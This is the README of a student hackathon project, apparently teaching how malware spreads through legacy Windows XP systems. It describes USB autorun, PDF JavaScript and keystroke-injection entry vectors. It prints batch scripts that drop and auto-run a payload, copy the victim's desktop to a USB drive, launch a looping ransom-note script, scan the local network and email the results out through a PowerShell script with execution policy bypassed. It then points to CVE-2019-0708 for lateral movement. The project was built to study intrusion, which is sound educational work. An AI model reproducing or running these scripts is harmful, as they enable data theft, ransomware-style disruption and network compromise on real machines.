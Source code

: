 # Man1f3zzt0

## Made by Ellioth Denzel Romero Martinez, Luis Daniel Filorio Luna, Miguel Soria, Omar Emiliano Sanchez Villegas, Sofia Moreno Lopez.

This piece of malware was created for a pseudo hackathon that aimed to teach students interested in cybersecurity how malware compromised big industry systems, especially legacy systems. 
The challenge proposed a case study where a pharmaceutical company let 3 threat actors posed as students enter their headquarters, and through social engineering managed to enter a usb into an employees computer. They printed a pdf file that was downloaded into the computer and after they left the first computer started showing a ransom note and lost access to its files. 
After some minutes the same started happening in other branches near the main HQ and after an hour it managed to infect their whole system.

The challenge was proposing a recovery plan and figuring out how they propagated through the system and compromised it, in an effort to give the best and most plausible solution my team and I got into the shoes of the threat actors and designed a malware to attack a windows xp system, there was no information about what system they were using but they challenge specified it was at least 20 years old and to this day windows xp is widely used around the world.

![windows xp](./images/windows_xp.png)

In the recon phase of the development we found 3 potential entry vectors, a misconfiguration of .inf files entering a system, a rubber ducky posing as a mass storage device and adobe acrobat executing JavaScript code embedded in pdf files.

These 3 entry vectors had one goal, to execute a malicious batch file that would copy our main malware into the system and execute it. The malicious file would then wait for 15 minutes before executing so the threat actors could exit the building.

## FIrst entry vector .inf files in the root of a usb - semi successful 

When a .inf file is in the root directory of a usb, it can run files instantly when placed inside a windows xp machine.
This vector proved somehow successful in early versions of windows XP, especially before windows xp SP2. The reason this wasn't our entry vector is that most configurations of windows xp for large systems have a registry that prompts a user input when a .inf is detected in the root directory of a usb system.

![windows xp regitry gui](./images/registry_edit.png)
## Second entry vector Javascript code inside PDF - semi successful 

Most of the versions of Adobe Acrobat Reader that were built for Windows XP by default run JavaScript code embedded inside of any pdf file. 
Our first approach to this entry vector was successful, we managed to display an alert on the machine symply by opening the file on Adobe Acrobat and Windows Explorer.

This seemed like the best way to enter the system, but then when designing and testing a different payload that used the JS ActiveXObject constructor to call cmd commands, we got an error detailing that ActiveXObject was not declared in the system. 
With short time we tried using a different version of windows xp but the error kept happening, it wasn't solved even after letting adobe acrobat have every unsafe permission. 
With little time left we needed to change approaches.

## Third entry vector rubber ducky posing as mass storage device - ULTRA SUCCESSFUL

To this day this is one of the most efficient entry vectors, the only downside is you need physical access to the system you are trying to pawn and the case study told us the threat actors did, even though this was the most efficient approach we made it our last resource as we knew we could develop the script pretty easily. 

We used a HAK5 rubber ducky and payload studio pro to develop the simple chain of keystrokes that would run in the background as the pdf file was opened. 


This simple keystroke injection opened the doors to our payload. 


## Payload 

Our payload consisted of 3 batch files.  Each with its unique function. 

Our first batch file was made so we could run code even after unplugging the usb from the target machine. It copies our main caller into the desktop and executes it. 
We used system variables that got the username from the system and used it to define the PATH to the desktop, with this we didn't need to worry about knowing and hard coding the username.

```

xcopy "%~dp0\maincaller.bat" "%userprofile%\Desktop\" /Y
start "" "%userprofile%\Desktop\maincaller.bat"

```



The second batch file is a little more complex, firstly copies everything from the desktop into a file inside our usb.

```

@echo off
setlocal

:: Set variables
set USB_DRIVE=E:  :: Change this to the letter of your USB drive
set DESKTOP_DIR=%USERPROFILE%\Desktop
set DEST_DIR=%USB_DRIVE%\DesktopBackup
set FINAL_SCRIPT=%USB_DRIVE%\final_script.bat
set WAIT_TIME=60  :: Time to wait in seconds

:: Create destination directory on USB drive
if not exist %DEST_DIR% mkdir %DEST_DIR%

:: Copy Desktop contents to USB drive
xcopy "%DESKTOP_DIR%\*" "%DEST_DIR%\" /E /H /C /I

```

After this it will start a timeout to wait for the threat actors to leave the building
It will delete everything and start a cmd file that shows the ransom note.

```

ping -n 240 127.0.0.1
start cmd /c "main.bat"

:monitor

REM Delay for 2 seconds
ping -n 30 127.0.0.1 >nul

start cmd /c "man1f3zzt0.bat"

goto monitor

```

## Lateral movement 

The next part is only a prove of concept as we were running out of time. 
We will use the simple mail transfer protocol to send all of the local ips that are currently in use.

Firstly we ping all of the possible local ips using a CIDR of /24. 
If they respond we save it to a local variable and continue until finished.
After this we curl to http://ipinfo.io/ip, this will give us the public ip address of this network.

```

@echo off
setlocal

:: Set variables
set NETWORK_BASE=192.168.1.  :: Change this to your network base
set OUTPUT_FILE=%TEMP%\network_scan_results.txt
set PUBLIC_IP_FILE=%TEMP%\public_ip.txt
set EMAIL_TO=someone@example.com  :: Change this to the recipient's email address
set EMAIL_SUBJECT="Network Scan Results"
set SMTP_SERVER=smtp.example.com  :: Change this to your SMTP server
set SMTP_PORT=587                 :: Change this to your SMTP server port
set SMTP_USERNAME=your_email@example.com  :: Change this to your email
set SMTP_PASSWORD=your_password   :: Change this to your email password

:: Clear previous output files
if exist %OUTPUT_FILE% del %OUTPUT_FILE%
if exist %PUBLIC_IP_FILE% del %PUBLIC_IP_FILE%

:: Get public IP address
echo Retrieving public IP address...
curl -s http://ipinfo.io/ip > %PUBLIC_IP_FILE%

:: Scan the network
echo Scanning the network...
for /L %%i in (1,1,254) do (
    ping -n 1 -w 1000 %NETWORK_BASE%%%i | find "Reply from" >> %OUTPUT_FILE%
)

:: Append public IP to output file
echo Public IP Address: >> %OUTPUT_FILE%
type %PUBLIC_IP_FILE% >> %OUTPUT_FILE%

```


We package all of this and send it to a properly configured gmail address. 

```
:: Prepare PowerShell script to send email
set PS_SCRIPT=%TEMP%\send_email.ps1
echo $EmailFrom = "%SMTP_USERNAME%" > %PS_SCRIPT%
echo $EmailTo = "%EMAIL_TO%" >> %PS_SCRIPT%
echo $Subject = "%EMAIL_SUBJECT%" >> %PS_SCRIPT%
echo $Body = "Find the attached network scan results." >> %PS_SCRIPT%
echo $SMTPServer = "%SMTP_SERVER%" >> %PS_SCRIPT%
echo $SMTPPort = %SMTP_PORT% >> %PS_SCRIPT%
echo $SMTPUser = "%SMTP_USERNAME%" >> %PS_SCRIPT%
echo $SMTPPass = "%SMTP_PASSWORD%" >> %PS_SCRIPT%
echo $Attachment = "%OUTPUT_FILE%" >> %PS_SCRIPT%
echo $Message = New-Object System.Net.Mail.MailMessage $EmailFrom, $EmailTo, $Subject, $Body >> %PS_SCRIPT%
echo $SMTP = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort) >> %PS_SCRIPT%
echo $SMTP.EnableSsl = $true >> %PS_SCRIPT%
echo $SMTP.Credentials = New-Object System.Net.NetworkCredential($SMTPUser, $SMTPPass) >> %PS_SCRIPT%
echo $Message.Attachments.Add((New-Object System.Net.Mail.Attachment($Attachment))) >> %PS_SCRIPT%
echo $SMTP.Send($Message) >> %PS_SCRIPT%

:: Execute the PowerShell script
powershell -ExecutionPolicy Bypass -File %PS_SCRIPT%

:: Clean up
del %OUTPUT_FILE%
del %PUBLIC_IP_FILE%
del %PS_SCRIPT%
endlocal

```


With all this info we can use the msfconsole to exploit the [CVE-2019-0708](https://nvd.nist.gov/vuln/detail/cve-2019-0708)

This vulnerability allows remote code execution and makes it extremely easy to propagate through the whole system.

All of this was made by my team and i in less than 20 hours, we learned a lot and are happy with the final product. 
